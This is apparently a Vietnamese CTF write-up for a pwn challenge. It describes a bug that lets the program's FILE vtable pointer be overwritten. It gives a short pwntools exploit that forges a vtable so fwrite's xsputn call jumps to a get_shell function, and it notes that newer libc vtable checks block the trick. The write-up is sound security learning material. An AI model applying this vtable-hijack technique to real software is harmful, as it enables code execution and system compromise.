



# 1.Find Bug :



- Hàm `read` ở option 4 cho phép thay đổi trực tiếp `vtable` address

# 2. Idea :

- Tận dùng option 4 để sửa `vtable` -> fake `vtable` sao cho fake `vtable` + 0x38 -> get_shell ( do hàm `fwrite` ở option 2 sẽ nhảy vào `vtable` + 0x38 hay `xsputn` để lấy địa chỉ rồi chạy nó )

# 3. Exploit :
```
sa(b'name: ', p64(exe.sym.get_shell))
slna(b'> ', 4)
sa(b'change: ', p64(0x6010d0-0x38))
slna(b'> ', 2)
```

- Ta cho `name` chứa hàm `get_shell`

- Sau đó là thay đổi `vtable` -> name - 0x38

- Cuối cùng chọn option2 để hàm `fwrite` lấy `fake vtable` + 0x38 = `name` ( đang chứa get_shell )




- Vì bài này ko cho libc bản cũ nên debug local là libc mới ( có check vtable ) ko thể get_shell nên chỉ có thể remote thẳng lên sever

# 4. Get Flag :




# 5. Learned :

- IO_file và vtable
